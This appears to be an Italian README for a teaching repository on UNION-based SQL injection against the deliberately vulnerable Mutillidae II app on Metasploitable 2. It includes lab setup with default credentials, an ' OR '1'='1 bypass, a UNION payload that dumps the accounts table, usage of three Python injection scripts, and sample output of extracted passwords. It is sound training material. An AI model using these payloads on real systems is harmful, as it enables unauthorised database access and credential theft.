

# SQL Injection - UNION-based su Mutillidae II

Modulo didattico per comprendere e sfruttare una SQL injection di tipo UNION-based contro l'applicazione Mutillidae II su Metasploitable 2.

Include:
- Configurazione dell'ambiente vulnerabile (MySQL, Mutillidae)
- Tre script Python progressivi per automatizzare l'attacco
- Database standalone per esercizi SQLi generici

---

## Disclaimer

Questo materiale è creato esclusivamente per scopi educativi e ambienti di test autorizzati. Non utilizzare su sistemi senza esplicita autorizzazione.

---

## Database SQLi standalone (setup_db.sql)

Il file `setup_db.sql` crea un database MySQL indipendente (sql_injection_db) con una tabella users popolata, utile per testare query UNION e bypass di autenticazione in un ambiente controllato.

---

## Setup dell'ambiente

### 1. Connessione a Metasploitable 2

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.23.131
# Password: msfadmin
```

### 2. Configurazione MySQL
```bash
mysql -u root -p
# Premere Enter (password vuota di default)
```

```sql
USE mysql;
GRANT ALL PRIVILEGES ON *.* TO 'root'@'localhost' WITH GRANT OPTION;
SET PASSWORD FOR 'root'@'localhost' = PASSWORD('password');
SET PASSWORD FOR 'root'@'%' = PASSWORD('password');
FLUSH PRIVILEGES;
EXIT;
```

### 3. Configurazione Mutillidae
```bash
sudo su
cd /var/www/mutillidae
nano config.inc
```
Modifica:

```php
$dbpass = 'password';
$dbname = 'owasp10';
```

Salva ed esci, poi riavvia Apache:

```bash
sudo /etc/init.d/apache2 restart
```

### 4. Inizializza il database via browser

Apri http://192.168.23.131/mutillidae/set-up-database.php e clicca Setup / Reset Database.

---

## Test SQLi manuale

Vai a http://192.168.23.131/mutillidae/index.php?page=user-info.php e inserisci nel campo username:

```sql
' OR '1'='1
```

Se vengono mostrati tutti gli utenti, la vulnerabilità è confermata.



---

## 🐍 Toolkit automatico

I tre script sono versioni progressive dello stesso strumento.

| Script | Descrizione |
|--------|-------------|
| `sqli_v1_basic.py` | Invia una richiesta HTTP con payload SQL via socket e stampa la risposta grezza |
| `sqli_v2_parsing.py` | Aggiunge parsing con regex ed estrazione dati formattata in tabella |
| `sqli_v3_complete.py` | Versione professionale con CLI completa, supporto SSL, modalità verbose e salvataggio su file |

| Feature | v1 Basic | v2 Parsing | v3 Complete |
|--------|:--------:|:----------:|:-----------:|
| Richiesta HTTP raw via socket | ✓ | ✓ | ✓ |
| Payload da riga di comando | ✗ | ✗ | ✓ |
| Parsing automatico credenziali | ✗ | ✓ | ✓ |
| Gestione automatica pulsante submit | ✗ | ✗ | ✓ |
| Supporto HTTPS/SSL | ✗ | ✗ | ✓ |
| Modalità verbose (`-v`) | ✗ | ✗ | ✓ |
| Salvataggio risposta su file (`-o`) | ✗ | ✗ | ✓ |
| User-Agent personalizzabile | ✗ | ✗ | ✓ |
| Output tabellare pulito | ✗ | ✓ | ✓ |

### Requisiti

- Python 3.6+
- Accesso a un'istanza di Metasploitable 2 (o ambiente simile)
- Cookie di sessione valido per Mutillidae (PHPSESSID)

> Zero dipendenze esterne: solo moduli standard Python (`socket`, `argparse`, `urllib`, `ssl`, `re`).

---

### Utilizzo

```bash
# v1
python3 sqli_v1_basic.py \
    --host 192.168.23.129 \
    -u "/mutillidae/index.php?page=user-info.php&username=" \
    --param username \
    --cookie "PHPSESSID=..."
```
```bash
# v2
python3 sqli_v2_parsing.py \
    --host 192.168.23.129 \
    --cookie "PHPSESSID=..."
```

```bash
# v3
python3 sqli_v3_complete.py \
    --host 192.168.23.129 \
    -u "/mutillidae/index.php?page=user-info.php&username=" \
    --param username \
    --cookie "PHPSESSID=a29be08566472cd9ee1f2379da4b1acc" \
    --payload "dump' UNION SELECT 1,username,password,mysignature,5 FROM accounts -- "
    
# Con verbose (mostra la richiesta HTTP inviata)
python3 sqli_v3_complete.py ... -v

# Con HTTPS
python3 sqli_v3_complete.py ... --ssl

# Salvando la risposta HTML
python3 sqli_v3_complete.py ... -o risposta.html
```
### Output di esempio

```
==================================================
RICHIESTA INVIATA:
==================================================
GET /mutillidae/index.php?page=user-info.php&username=dump%27%20UNION%20SELECT%201%2Cusername%2Cpassword%2Cmysignature%2C5%20FROM%20accounts%20--%20&user-info-php-submit-button=View+Account+Details HTTP/1.1
Host: 192.168.23.129
User-Agent: Mozilla/5.0 (SQLi Pro)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
Cookie: PHPSESSID=a29be08566472cd9ee1f2379da4b1acc

==================================================

=================== COMPONENTI ESTRATTI ====================
USERNAME                  | PASSWORD                 
------------------------------------------------------------
admin                     | adminpass                
adrian                    | somepassword             
john                      | monkey                   
jeremy                    | password                 
bryce                     | password                 
samurai                   | samurai                  
jim                       | password                 
bobby                     | password                 
simba                     | password                 
dreveil                   | password                 
scotty                    | password                 
cal                       | password                 
john                      | password                 
kevin                     | 42                       
dave                      | set                      
ed                        | pentest                  
============================================================
```

---

## Licenza

Questo progetto è rilasciato a scopo educativo. Usalo responsabilmente.
